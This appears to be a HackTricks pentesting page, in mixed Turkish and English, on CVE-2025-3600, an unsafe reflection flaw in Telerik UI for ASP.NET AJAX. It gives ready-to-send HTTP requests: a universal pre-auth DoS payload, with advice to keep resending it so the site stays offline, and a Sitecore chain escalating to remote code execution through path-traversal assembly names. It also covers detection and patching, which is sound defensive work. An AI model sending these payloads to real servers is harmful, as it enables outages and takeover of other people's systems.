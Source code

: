 # Telerik UI for ASP.NET AJAX – Unsafe Reflection via WebResource.axd (type=iec)

{{#include ../../banners/hacktricks-training.md}}

> Pre‑auth constructor execution in Telerik UI for ASP.NET AJAX Image Editor cache handler enables universal DoS and, in many apps, pre‑auth RCE via target‑specific gadgets (CVE-2025-3600).

## TL;DR

- Etkilenen bileşen/route: Telerik.Web.UI.WebResource.axd with query type=iec (Image Editor cache handler). Birçok üründe pre‑auth olarak açığa çıkıyor.
- Primitive: Saldırgan bir type adı (prtype) kontrolü sağlar. Handler bunu Type.GetType() ile çözümler ve Activator.CreateInstance() çağırarak interface tip‑güvenliğini doğrulamadan constructor'ı çalıştırır. Herhangi bir public parametresiz .NET type constructor'ı çalıştırılacaktır.
- Etki:
  - Evrensel pre‑auth DoS, bir .NET framework gadget'ı ile (PowerShell WSMan finalizer) mümkün.
  - Gerçek dağıtımlarda, özellikle güvensiz AppDomain.AssemblyResolve handler'larını kötüye kullanarak, çoğu zaman hedefe özel gadget'larla pre‑auth RCE'ye yükselir.
- Düzeltme: Telerik UI for ASP.NET AJAX 2025.1.416+ sürümüne güncelleyin veya handler'ı kaldırın/kilitleyin.

## Affected versions

- Telerik UI for ASP.NET AJAX versions 2011.2.712 through 2025.1.218 (inclusive) are vulnerable.
- Fixed in 2025.1.416 (released 2025-04-30). Patch immediately or remove/lock down the handler.

## Affected surface and quick discovery

- Maruziyeti kontrol et:
- GET /Telerik.Web.UI.WebResource.axd should return something other than 404/403 if the handler is wired.
- web.config içinde Telerik.Web.UI.WebResource.axd'ye eşlenen handler'ları inceleyin.
- Kırılgan kod yolunu tetiklemek için gerekenler: type=iec, dkey=1 ve prtype=<AssemblyQualifiedType>.

Example probe and generic trigger:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=Namespace.Type, Assembly
```
Notlar
- Some PoCs use dtype; the implementation checks dkey=="1" for the download flow.
- prtype must be assembly-qualified or resolvable in the current AppDomain.

## Kök neden – unsafe reflection in ImageEditorCacheHandler

Image Editor önbellek indirme akışı, prtype ile sağlanan bir türün örneğini oluşturur ve yalnızca daha sonra bunu ICacheImageProvider'a cast edip indirme anahtarını doğrular. Doğrulama başarısız olduğunda constructor zaten çalışmış olur.

<details>
<summary>İlgili dekompile edilmiş akış</summary>
```csharp
// entrypoint
public void ProcessRequest(HttpContext context)
{
string text = context.Request["dkey"];           // dkey
string text2 = context.Request.Form["encryptedDownloadKey"]; // download key
...
if (this.IsDownloadedFromImageProvider(text)) // effectively dkey == "1"
{
ICacheImageProvider imageProvider = this.GetImageProvider(context); // instantiation happens here
string key = context.Request["key"];
if (text == "1" && !this.IsValidDownloadKey(text2))
{
this.CompleteAsBadRequest(context.ApplicationInstance);
return; // cast/check happens after ctor has already run
}
using (EditableImage editableImage = imageProvider.Retrieve(key))
{
this.SendImage(editableImage, context, text, fileName);
}
}
}

private ICacheImageProvider GetImageProvider(HttpContext context)
{
if (!string.IsNullOrEmpty(context.Request["prtype"]))
{
return RadImageEditor.InitCacheImageProvider(
RadImageEditor.GetICacheImageProviderType(context.Request["prtype"]) // [A]
);
}
...
}

public static Type GetICacheImageProviderType(string imageProviderTypeName)
{
return Type.GetType(string.IsNullOrEmpty(imageProviderTypeName) ?
typeof(CacheImageProvider).FullName : imageProviderTypeName); // [B]
}

protected internal static ICacheImageProvider InitCacheImageProvider(Type t)
{
// unsafe: construct before enforcing interface type-safety
return (ICacheImageProvider)Activator.CreateInstance(t); // [C]
}
```
</details>

Exploit primitive: Kontrol edilen type string → Type.GetType bunu çözer → Activator.CreateInstance public parametresiz constructor'ını çalıştırır. İstek sonradan reddedilse bile, gadget yan etkileri zaten gerçekleşmiş olur.

## Evrensel DoS gadget (uygulamaya özel gadget gerekmez)

Sınıf: System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper, System.Management.Automation (PowerShell) içinde bir finalizer'a sahiptir; bu finalizer başlatılmamış bir handle'ı dispose eder ve GC onu finalize ettiğinde unhandled exception oluşmasına neden olur. Bu, örneğin oluşturulmasından kısa süre sonra IIS worker process'in güvenilir şekilde çökmesine yol açar.

Tek seferlik DoS isteği:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
Notes
- Sitenin çevrimdışında kalmasını sağlamak için periyodik olarak göndermeye devam edin. Bir debugger'da constructor'ın tetiklendiğini gözlemleyebilirsiniz; çökme finalization sırasında gerçekleşir.

## DoS'dan RCE'ye – yükseltme desenleri

Güvensiz constructor yürütülmesi birçok hedefe özgü gadget'lar ve zincirlerin kilidini açar. Şunları ara:

1) Parametresiz constructor'lar that process attacker input
- Bazı ctors (veya static initializers) hemen Request query/body/cookies/headers'ı okur ve bunları (de)serialize eder.
- Örnek (Sitecore): bir ctor zinciri GetLayoutDefinition()'a ulaşır; bu HTTP gövdesindeki "layout"u okur ve JSON.NET ile JSON'u deserialize eder.

2) Constructors that touch files
- Ctros that load or deserialize config/blobs from disk can be coerced if you can write to those paths (uploads/temp/data folders).

3) Constructors performing app-specific ops
- Durumu sıfırlama, modülleri açıp kapama veya süreçleri sonlandırma.

4) Constructors/static ctors that register AppDomain event handlers
- Birçok uygulama, args.Name'den DLL yolları oluşturan ve sanitize etmeden AppDomain.CurrentDomain.AssemblyResolve handler'ları ekler. Eğer type çözümlemesini etkileyebiliyorsanız, saldırgan kontrollü yollar üzerinden rastgele DLL yüklemelerini zorlayabilirsiniz.

5) Type.GetType aracılığıyla AssemblyResolve'u zorlamak
- Var olmayan bir type'ı isteyerek CLR çözümlemesini zorlayın ve kayıtlı (muhtemelen güvensiz) resolver'ları çağırın. Örnek assembly-qualified name:
```
This.Class.Does.Not.Exist, watchTowr
```
6) Yıkıcı yan etkilere sahip finalizer'lar
- Bazı tipler finalizer'larda sabit-yollu dosyaları siler. Link-following veya öngörülebilir yollarla birleştiğinde bu, belirli ortamlarda local privilege escalation'a izin verebilir.

## Örnek pre‑auth RCE zinciri (Sitecore XP)

- Step 1 – Pre‑auth: Statik/instance ctor'ı güvensiz bir AssemblyResolve handler kaydeden bir tipi tetikleyin (ör. Sitecore’ın FolderControlSource'u ControlFactory'de).
- Step 2 – Post‑auth: Bir resolver-probed dizine yazma izni elde edin (ör. auth bypass veya weak upload yoluyla) ve kötü amaçlı bir DLL yerleştirin.
- Step 3 – Pre‑auth: Var olmayan bir tip ve traversal-laden assembly adı ile CVE‑2025‑3600'ı kullanarak resolver'ın yerleştirdiğiniz DLL'i yüklemesini zorlayın → kod çalıştırma olarak IIS worker.

Tetikleme örnekleri
```http
# Load the insecure resolver (no auth on many setups)
GET /-/xaml/Sitecore.Shell.Xaml.WebControl

# Coerce the resolver via Telerik unsafe reflection
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=watchTowr.poc,+../../../../../../../../../watchTowr
```
## Doğrulama, tehdit avcılığı ve DFIR notları

- Güvenli laboratuvar doğrulaması: DoS payload'ını çalıştırın ve WSMan finalizer ile ilişkili app pool yeniden başlatması/ele alınmamış exception olup olmadığını gözleyin.
- Telemetride arama:
- type=iec ve garip prtype değerleri ile /Telerik.Web.UI.WebResource.axd istekleri.
- Başarısız type yüklemeleri ve AppDomain.AssemblyResolve olayları.
- Böyle istekleri takiben ani w3wp.exe çökme/yeniden başlatmaları.

## Önlemler

- Telerik UI for ASP.NET AJAX 2025.1.416 veya daha yeni bir sürüme güncelleyin.
- Mümkünse Telerik.Web.UI.WebResource.axd'nin dışa açık erişimini kaldırın veya kısıtlayın (WAF/rewrites).
- prtype işleme mantığını sunucu tarafında yok sayın veya sertleştirin (güncelleme, örnekleme/instantiation öncesinde uygun kontrolleri uygular).
- Özel AppDomain.AssemblyResolve handler'larını denetleyin ve sertleştirin. args.Name'den path oluştururken sanitizasyon olmadan kaçının; güçlü isimli (strong-named) yüklemeleri veya beyaz listeyi tercih edin.
- Yükleme/yazma konumlarını kısıtlayın ve DLL'lerin taranan dizinlere bırakılmasını engelleyin.
- Çözücü kötüye kullanımını yakalamak için var olmayan type yükleme girişimlerini izleyin.

## Hızlı Başvuru

- Varlık kontrolü:
- GET /Telerik.Web.UI.WebResource.axd
- web.config içinde handler eşlemesine bakın
- Exploit skeleton:
```http
GET /Telerik.Web.UI.WebResource.axd?type=iec&dkey=1&prtype=<TypeName,+Assembly,+Version=..., +PublicKeyToken=...>
```
- Universal DoS:
```http
...&prtype=System.Management.Automation.Remoting.WSManPluginManagedEntryInstanceWrapper,+System.Management.Automation,+Version%3d3.0.0.0,+Culture%3dneutral,+PublicKeyToken%3d31bf3856ad364e35
```
- Tetikleyici çözücü:
```
This.Class.Does.Not.Exist, watchTowr
```
## İlgili teknikler

- IIS post-exploitation, .NET key extraction ve in‑memory loaders:

{{#ref}}
iis-internet-information-services.md
{{#endref}}

- ASP.NET ViewState deserialization ve machineKey abuses:

{{#ref}}
../../pentesting-web/deserialization/exploiting-__viewstate-parameter.md
{{#endref}}

## Kaynaklar

- [watchTowr labs – More than DoS: Progress Telerik UI for ASP.NET AJAX Unsafe Reflection (CVE-2025-3600)](https://labs.watchtowr.com/more-than-dos-progress-telerik-ui-for-asp-net-ajax-unsafe-reflection-cve-2025-3600/)
- [Black Hat USA 2019 – SSO Wars: The Token Menace (Mirosh & Muñoz) – DoS gadget background](https://i.blackhat.com/USA-19/Wednesday/us-19-Munoz-SSO-Wars-The-Token-Menace-wp.pdf)
- [ZDI – Abusing arbitrary file deletes to escalate privilege](https://www.zerodayinitiative.com/blog/2022/3/16/abusing-arbitrary-file-deletes-to-escalate-privilege-and-other-great-tricks)
- [watchTowr – Is “B” for Backdoor? (Sitecore chain CVE-2025-34509)](https://labs.watchtowr.com/is-b-for-backdoor-pre-auth-rce-chain-in-sitecore-experience-platform/)

{{#include ../../banners/hacktricks-training.md}}
